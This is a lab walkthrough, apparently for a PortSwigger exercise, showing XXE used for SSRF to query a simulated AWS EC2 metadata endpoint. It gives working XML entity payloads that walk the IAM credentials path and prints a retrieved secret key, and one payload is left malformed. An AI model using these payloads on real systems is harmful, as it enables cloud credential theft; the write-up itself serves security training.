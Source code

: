 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/27ddd09b-c759-465e-8783-efdf96e96d99)


## Overview :

#### Exploiting XXE to perform SSRF attacks

Aside from retrieval of sensitive data, the other main impact of XXE attacks is that they **can be used to perform server-side request forgery (SSRF)**. This is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.

To exploit an XXE vulnerability to perform an SSRF attack, you need to **define an external XML entity using the URL that you want to target**, and **use the defined entity within a data value**. If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the URL within the application's response, and so gain two-way interaction with the back-end system. If not, then you will only be able to perform blind SSRF attacks (which can still have critical consequences).

In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Solution :

> The lab server is running a (simulated) AWS EC2 metadata endpoint at the default URL, which is http://169.254.169.254/

#### Access the EC2 instance -

Clicking on checkstock , a request is sent as follows.

```xml
POST /product/stock HTTP/1.1
Host: 0a6b0074032a636f8001716f00660002.web-security-academy.net
Cookie: session=IO1xzxtsKi3p7KPymgSicKBsVEpCG8sT
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a6b0074032a636f8001716f00660002.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a6b0074032a636f8001716f00660002.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

First we declare a DOCTYPE with an external entitiy which fetches the url **http://169.254.169.254** from the backend system - `<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/"> ]>`


Then we can try to refer the entitiy `aws` in between the `<productID>` tags to fetch the url & return the response of the application.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/aafdd39a-293e-4afd-b3a6-96a4942ad547)

We can see that it returned `latest` which is the starting path where we can get the **IAM secret access key**.

> http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME - Full path that returns the security credentials of that role.

We don't know what is the  **ROLE_NAME** here. So lets first fetch http://169.254.169.254/latest/meta-data/iam/security-credentials/

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
 <stockCheck>
  <productId>&aws;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b2afb661-82d2-42e9-a495-c7f1a0dca213)

We now got to know that the **ROLE_NAME is admin**. Include admin in the uri & send the request again.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin
 <stockCheck>
  <productId>&aws;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c0f0008e-626e-4151-8ac6-0e1b1be2f83f)

Now we got the secret access key from AWS EC2 - `Dzwohf7utghOfHiha9CFLAxKD6LurMKh4QrzaBCE`

And the has been solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/886c75d2-26e1-455c-ae34-c62a3b4f9293)












